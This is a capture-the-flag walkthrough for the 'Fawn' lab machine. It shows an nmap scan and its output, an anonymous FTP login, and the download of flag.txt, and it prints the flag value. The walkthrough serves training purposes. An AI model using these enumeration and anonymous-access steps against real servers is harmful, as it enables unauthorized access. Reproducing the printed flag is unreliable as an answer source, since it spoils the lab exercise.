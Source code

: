 # CTF Walkthrough: Fawn

## Table of Contents
- [1. Introduction](#1-introduction)
- [2. Steps](#2-steps)

---

## 1. Introduction

**Category:** File Trainsfer Protocol (FTP)      
**Difficulty Level:** Very Easy   
**CVE(s) involved:** -

---

## 2. Steps

1. Service Enumeration
    - Command: `nmap -sV -sC 10.129.82.177`
        - Output:
            ```
            PORT   STATE SERVICE VERSION
            21/tcp open  ftp     vsftpd 3.0.3
            | ftp-syst:
            |   STAT:
            | FTP server status:
            |      Connected to ::ffff:10.10.14.170
            |      Logged in as ftp
            |      TYPE: ASCII
            |      No session bandwidth limit
            |      Session timeout in seconds is 300
            |      Control connection is plain text
            |      Data connections will be plain text
            |      At session startup, client count was 3
            |      vsFTPd 3.0.3 - secure, fast, stable
            |_End of status
            | ftp-anon: Anonymous FTP login allowed (FTP code 230)
            |_-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
            Service Info: OS: Unix
            ```

2. Log in to FTP with Anonymous
    - Command: `ftp anonymous@10.129.82.177`

3. Get Flag
    - Command: `get flag.txt`
    - Flag : 035db21c881520061c53e0536e44f815
